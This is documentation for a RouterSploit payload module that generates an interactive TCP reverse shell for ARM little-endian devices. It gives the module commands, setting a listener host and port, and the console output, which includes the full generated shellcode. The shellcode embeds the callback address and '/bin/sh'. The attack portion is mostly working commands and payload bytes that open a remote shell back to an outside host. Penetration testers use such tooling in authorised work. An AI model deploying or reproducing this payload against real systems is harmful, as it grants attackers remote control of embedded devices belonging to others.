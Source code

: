 ## Description

Module generates payload that creates interactive tcp reverse shell for ARMLE architecture.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/armle/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Module generates armle reverse shell tcp payload

## Scenarios

```
rsf >
rsf > use payloads/armle/reverse_tcp
rsf (ARMLE Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (ARMLE Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (ARMLE Reverse TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x02\x20\x01\x21\x92\x1a\x0f"
    "\x02\x19\x37\x01\xdf\x06\x1c\x08\xa1\x10\x22\x02\x37\x01\xdf"
    "\x3f\x27\x02\x21\x30\x1c\x01\xdf\x01\x39\xfb\xd5\x05\xa0\x92"
    "\x1a\x05\xb4\x69\x46\x0b\x27\x01\xdf\xc0\x46\x02\x00\x10\xe1"
    "\xc0\xa8\x01\x04\x2f\x62\x69\x6e\x2f\x73\x68\x00"
)
```
